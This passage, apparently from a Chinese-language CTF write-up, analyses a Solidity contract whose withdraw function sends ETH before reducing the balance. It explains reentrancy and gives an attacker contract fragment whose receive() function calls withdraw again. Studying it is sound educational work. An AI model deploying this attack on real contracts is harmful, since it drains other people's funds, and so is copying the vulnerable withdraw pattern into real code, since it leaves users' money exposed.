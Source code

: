 ```solidity
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    // 取钱
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

从题目名字就能看出，是个重入攻击；

一般有重入攻击的合约都是先转账再扣金额的，而且使用的是` addr.call{value}("") `这个转账函数；

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");
        balances[msg.sender] -= _amount;
    }
}
```

重入攻击就是当用户取款时，在` (bool result,) = msg.sender.call{value: _amount}(""); `这一句后发动重复的攻击，此时合约中存储我们账户余额的` mapping `还没有改动；有点类似递归，一直在调用，但还没返回；

如何来实现攻击呢？

写一个合约，使其有个` withdraw `函数，再来个` receive `函数：

```solidity
// 取款
function attack_withdraw() external {
    // 调用原withdraw
    victim.withdraw(money);
}
// 接收ETH时
receive() external payable {
    victim.withdraw(money);
}
```

1. 我们调用` attack_withdraw() `函数；
2. 调用` victim.withdraw() `取款；
3. 此时ETH到我们的合约上，正好又触发` receive() `函数；
4. ` receive() `函数又调用` victim.withdraw() `函数；
5. 触发` receive() `函数；
6. ...
